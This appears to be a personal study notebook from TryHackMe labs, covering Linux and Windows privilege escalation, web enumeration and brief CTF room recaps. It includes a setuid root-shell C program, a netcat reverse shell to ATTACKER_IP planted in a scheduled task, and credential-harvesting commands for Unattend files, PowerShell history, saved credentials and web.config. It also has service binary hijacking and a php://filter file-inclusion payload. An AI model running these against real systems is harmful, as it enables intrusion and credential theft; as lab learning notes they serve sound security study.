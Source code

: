 # R

* Remember for web/general/security
* .todo: dns discord
* web general | terminology | URL may have to be moved

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
=> hint/notes
=> network
* Another alternative to this program, is to create a suite file with a copy of bash.

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

* https://tryhackme.com/room/windowsprivesc20 (premium)

```
Misconfigurations on Windows services or scheduled tasks
Excessive privileges assigned to our account
Vulnerable software
Missing Windows security patches
```

* System are more perms that admin
* Windows Deployment Services: deploy an image to serveral hosts. These are refereed as Unattended, Admin account required to create them. Credentials

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

* PowerShell's history: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` and in a cmd `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
* List saved crendetials `cmdkey /list`. Run command as another user? `runas /savecred /user:admin cmd.exe`
* Internet Information Services (IIS) is the default web server on Windows installations.

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

* PuTTY `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
* `schtasks /query /tn vulntask /fo list /v`: look for ones in which we can inject/modify the binary
* Start task manually `schtasks /run /tn vulntask` (CTF)
* `icacls c:\tasks\schtask.bat`: check permissions (F=Full Access)
* (cmd) `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > task.bat`
* Windows installer files (-f msi -o malicious.msi)
* Windows services are managed by the Service Control Manager (SCM).
* `sc qc` (ahah, my steel moutain)
* IN A EFFING CMD BITCH (otherwise: sc.exe)
* Unquoted Service Paths
  * If there are space in the executable space
  * and there is an executable that can be created in the path of the service
  * then the executable will be executed with the rest of the path as arguments
  * AD and WD privileges, allowing the user to create subdirectories and files
  * https://askubuntu.com/questions/1075098/remmina-scaling-options
* Insecure Service Permissions
* XXX
* https://tryhackme.com/room/windowsprivesc20 (dropped fur now)
* XXX
* Moar
  * https://github.com/bitsadmin/wesng
  * https://blog.bitsadmin.com/blog/windows-security-updates-for-hackers
  * https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
  * https://github.com/gtworek/Priv2Admin
  * https://github.com/antonioCoco/RogueWinRM
  * https://jlajara.gitlab.io/Potatoes_Windows_Privesc
  * https://decoder.cloud/
  * https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf
  * https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at C:\Program Files\FileZilla Server\FileZilla Server.xml
or C:\xampp\FileZilla Server\FileZilla Server.xml
. These can be MD5 hashes or in plaintext, depending on the version.

<hr>

## Forced Browsing

* https://tryhackme.com/room/webenumerationv2
  * Gobuster options.
  * -k for ssl errors
* Gobuster DNS/VHosts
* Useful wordlists
* nmap `-n` redo
* add a warning + 64th
* `cat /usr/share/wordlists/dirb/extensions_common.txt | tr '\n' ','`
* `gobuster -u` for vhost
* `gobuster vhost -u http://webenum.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t50 --append-domain` (in new versions of gobuster, false by default)
* NOT FINISHED https://tryhackme.com/room/webenumerationv2

> While participating in rooms on TryHackMe, virtual hosts would be a good way to hide a completely different website if nothing turned up on your main port 80/443 scan.

<hr>

## Overconfidence

--- https://tryhackme.com/room/steelmountain

* use meterpreter upload to upload the winPEAS
* `upload /tmp/xxx`
* `shell`
* `.\winPEASany_ofs.exe`
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `load powershell`
* `powershell_shell`
* `. .\PowerUp.ps1; Invoke-AllChecks`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn
* sc qc XXX
* sc stop XXX
* `Write-ServiceBinary -Name 'XXX' -Path ".\nc.exe"`
* sc start XXX
* `powershell -c wget "URL" -outfile "OUTPUT"`
* like OTX: https://cyware.com/

--- https://tryhackme.com/room/easyctf 🐍🐍🐍

* `python2 simple.py`
* oh gosh, volatily + `pip install --upgrade setuptools` https://stackoverflow.com/questions/31719816/pip-fails-to-install-anything-error-invalid-command-egg-info
* `print "[+] Specify an url target"`

--- https://tryhackme.com/room/cowboyhacker

* nmap
* FTP exposed
* Hydra ssh
* SUID

--- https://tryhackme.com/room/lazyadmin 🐍🐍🐍

* nmap
* gobuster
* ...

--- https://tryhackme.com/room/startup

* nmap
* gobuster
* ftp
* file upload
* wireshark
* crontab

Others

* If FTP is asking for a password, press enter
* FTP do not seem to work with path (to upload with put, but it works if you start FTP in the directory where the file is)
* Press F12 to go back to penelope UI. You can use upload/download. Go back with `interact 1`
* wireshark `.pcapng`. Then right-click on interesting packets, and click on "follow TCP Stream"
* crontab for a user (`ls /var/spool/cron/crontabs/root` root). https://github.com/DominicBreuker/pspy
* Proper name for this section whelp 😭

--- https://tryhackme.com/room/allinonemj 🐍🐍🐍

* Kali right-arrow
* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion)